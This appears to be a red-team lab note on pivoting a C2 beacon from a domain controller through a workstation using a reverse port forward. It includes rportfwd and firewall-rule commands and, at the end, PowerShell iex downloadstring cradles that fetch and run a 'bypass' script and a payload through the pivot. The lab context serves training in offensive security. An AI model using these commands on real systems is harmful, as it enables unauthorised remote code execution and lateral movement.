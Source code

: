 `Reverse Port Forward` example: for `DC-2` to be able to reach our `Attacker Desktop` the path is followed as below:

`DC-2` -> `WKSTN-2` -> `Attacker Desktop` with utilization of a `Reverse Port Forward`


on DC-2

![[Pasted image 20231204144917.png]]
unable to reach the `Attacker Desktop` directly, need a `reverse port forward`
`iwr -Uri http://10.10.5.50/a`
![[Pasted image 20231204145137.png]]
on `WKSTN-2 beacon` setup a `reverse port forward` with `rportfwd 8080 127.0.0.1 80` 
- redirecting any traffic that is hitting `WKSTN-2` on port `8080` to `127.0.0.1` (Teams Server) on port `80`
![[Pasted image 20231204150655.png]]
checking to ensure that port `8080` is `listening`  `run netstat -anp tcp`
![[Pasted image 20231204150805.png]]
on `WKSTN-2` setup a `FIREWALL` rule to allow port `8080` traffic `in`  `powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`
- in order to change the `firewall` rules must be an `ADMIN` or `SYSTEM`
![[Pasted image 20231204150954.png]]
can delete `firewall` rule later with `powershell Remove-NetFirewallRule -DisplayName "8080-In"`
can check `firewall` rule names with `powershell Get-NetFirewallRule -DisplayName "8080-In"`
to disable the firewall rule `powershell Remove-NetFirewallRule -DisplayName "8080-In"`


now when testing the connection from `DC-2` to `beacon` through `wkstn-2` we are able to hit it.
`iwr -Uri http://wkstn-2:8080/a`
`iex (new-object net.webclient).downloadstring("http://wkstn-2:8080/bypass"); iex (new-object net.webclient).downloadstring("http://wkstn-2:8080/a")`
![[Pasted image 20231204151245.png]]

